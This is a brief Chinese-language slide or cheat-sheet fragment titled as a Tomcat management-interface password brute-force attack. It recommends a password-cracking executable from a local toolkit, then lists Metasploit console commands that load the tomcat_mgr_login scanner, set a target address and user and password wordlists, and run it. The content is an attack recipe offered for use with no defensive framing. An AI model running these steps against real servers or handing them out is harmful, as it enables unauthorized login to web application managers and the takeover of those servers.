

# tomcat 管理接口 密码爆破攻击
工具包里面的E:\TOOLS\TOOLS\04--密码破解\Apache Tomcat.exe 比较强大 推荐使用
search tomcat
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 192.168.1.1
set PASS_FILE /root/pass.txt
set USER_FILE /root/user.txt
exploit